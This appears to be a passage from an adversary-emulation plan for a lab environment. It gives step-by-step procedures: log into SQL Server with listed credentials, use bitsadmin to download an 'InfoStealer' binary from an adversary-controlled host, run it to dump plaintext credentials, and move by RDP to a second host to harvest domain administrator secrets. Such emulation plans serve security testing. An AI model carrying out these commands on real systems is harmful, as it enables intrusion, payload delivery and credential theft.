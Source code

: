### ☣️ Procedures

* Within the RDP session, search for "SQL Server Management Studio".
    * In the "Connect to Server" prompt, select `Sql Server Authentication` for the Authentication type, if not already selected
    * Login as zorimoto (no `DIGIREVENGE`):
        | Username | Password |
        | -------- | -------- |
        | zorimoto | tzTVgs44isT4YxWU! |
    * On the lefthand side, in the `Object Explorer` expand the `Databases` folder.
    * Next expand `NetBNMBackup` > `Tables` and right-click `dbo.Credentials`, then select `Select Top 1000 Rows`.
        * Review the rows of data to ensure they are indicative of being an unencrypted, 
    encoded-only NetBNMBackup duplicate.

* Open a non-elevated `cmd.exe` as `zorimoto` then execute `BITSAdmin.exe` to download
InfoStealer from the adversary server
  ```
  bitsadmin /transfer defaultjob2 /download http://the-inator.com/digirevenge/netbnmp.exe %TEMP%\netbnmp.exe
  ```

* Execute InfoStealer against the bastion host and confirm output contains
plaintext credentials for the SQL service account
  ```
  %TEMP%\netbnmp.exe base64 localhost zorimoto tzTVgs44isT4YxWU!
  ```

* **Within the RDP session**, search for "Remote Desktop Connection" and
initiate an RDP connection to `datamon (10.20.10.122)` using `zorimoto`'s
credentials:
  | Username | Password |
  | -------- | -------- |
  | DIGIREVENGE\zorimoto | tzTVgs44isT4YxWU! |

* Open a non-elevated `cmd.exe` as `zorimoto` then execute `BITSAdmin.exe` to download
InfoStealer from the adversary server
  ```
  bitsadmin /transfer defaultjob /download http://the-inator.com/digirevenge/netbnmp.exe %TEMP%\netbnmp.exe
  ```

* Execute InfoStealer against the NetBNMBackup SQL server `datamon (10.20.10.122)`
using `zorimoto`'s credentials and confirm output contains plaintext credentials
for:
    * The workstation local administrator account `windesk`
    * The Linux KVM server administrator account `marakawa`
    * The domain adminstrator account `ykaida.da`
  ```
  %TEMP%\netbnmp.exe dpapi localhost zorimoto tzTVgs44isT4YxWU!
  ```

* Close all Windows then **disconnect** from the RDP session to `datamon (10.20.10.122)`.
You should be returned to the RDP session to the bastion host.
